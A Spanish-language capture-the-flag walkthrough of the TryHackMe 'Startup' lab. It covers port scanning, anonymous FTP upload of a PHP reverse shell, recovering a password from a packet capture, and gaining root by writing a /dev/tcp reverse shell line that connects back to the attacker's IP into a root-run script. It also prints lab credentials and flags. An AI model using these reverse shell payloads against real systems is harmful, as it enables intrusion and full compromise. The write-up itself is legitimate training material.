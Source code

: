 # Startup

## Escaneo de puertos

Usamos la herramienta de`nmap`para mapear los puertos abiertos disponibles en la máquina víctima.

```
sudo nmap -sV -T4 -p- 10.10.32.165
```

Tenemos tres puertos abiertos.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image.png)

## Acceso por FTP

Entramos mediante FTP de forma anónima.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-1.png)

Nos descargamos los ficheros que hay disponibles.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-2.png)

La imagen no parece nada relevante de momento.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-3.png)

Aunque tenemos un posible usuario en el sistema:`Maya`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-4.png)

## Inspeccionando el servidor web

Accedemos al sitio web para ver si hay algo importante.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-5.png)

Usamos`gobuster`para identificar posibles directorios ocultos.

```
gobuster dir -u 10.10.32.165 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

Encontramos un directorio llamado`/files`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-6.png)

Accedemos al mismo y vemos que tiene el mismo contenido que vimos por FTP.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-7.png)

## Reverse Shell

Podemos implantar una reserve shell ya que es un directorio abierto vulnerable.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Ponemos nuestra IP y el puerto y guardamos.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-8.png)

Abrimos el puerto en escucha.

```
nc -lvnp 1234
```

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-9.png)

Subimos el archivo de la reverse shell a través de ftp.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-10.png)

Volvemos a la página y en la carpeta de ftp tenemos el archivo subido.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-11.png)

Simplemente hacemos clic y se quedará cargando y hemos obtenido acceso.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-12.png)

Obtenemos un shell mas estable escribiendo`bash -i`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-13.png)

Inspeccionando el contenido encontramos el fichero que necesitábamos de`recipe.txt`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-14.png)

El ingredientes es`love`.

Vamos a la carpeta de`incidents`y tenemos un fichero de Wireshark.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-15.png)

Lo descargamos copiandolo a la carpeta expuesta en el sitio web.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-16.png)
![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-17.png)

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-18.png)

Seleccionamos cualquier paquete TCP y le damos a "Follow" y luego "TCP Stream".

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-19.png)

Encontramos la contraseña de un usuario llamado`lennie` que es`c4ntg3t3n0ughsp1c3`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-20.png)

## Acceso por SSH

Usando estas credenciales, accedemos con el usuario`lennie`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-21.png)

Obtenemos la flag del`user.txt`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-22.png)

```
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

## Escalada de privilegios

En la carpeta`/scripts`hay más archivos importantes. El de`planner.sh`vemos que el propietario es root

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-23.png)

Y ejecuta`/etc/print.sh`.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-24.png)

Usamos`pspy`para comprobar los procesos que hay funcionando del usuario root.

https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

Subimos el programa a través de FTP.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-25.png)

Esto es necesario porque no podemos usar`wget`desde el login de SSH.

Generamos una reverse shell para el root.

https://www.revshells.com/

Insertamos el payload en el script que se ejecuta cada minuto al parecer.

```
echo "sh -i >& /dev/tcp/10.2.41.173/5555 0>&1" > /etc/print.sh
```

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-26.png)

Abrimos otro puerto en escucha y cuando se ejecute el script, tenemos acceso como root ya que el script como ya sabemos se ejecuta con permisos de administrador.

![](Hacking_Etico/TryHackMe_WriteUps/Startup/images/image-27.png)

Tenemos la flag de`root.txt`.

```
THM{f963aaa6a430f210222158ae15c3d76d}
```
